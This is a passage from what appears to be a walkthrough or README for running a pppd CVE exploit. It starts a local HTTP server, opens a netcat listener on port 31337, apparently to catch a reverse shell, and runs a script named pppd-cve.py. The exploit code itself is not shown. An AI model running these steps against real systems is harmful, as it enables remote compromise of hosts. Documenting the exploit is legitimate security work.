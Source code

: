 ```sh
python3 -m http.server 80
```

Start the `netcat` network utility.

```sh
netcat -nvlp 31337
```

<p align="center">
    <img height="auto" width="auto" src="images/11.png" />
</p>

Run `pppd-cve.py` in a new terminal session:

```sh
python3 pppd-cve.py
```

<p align="center">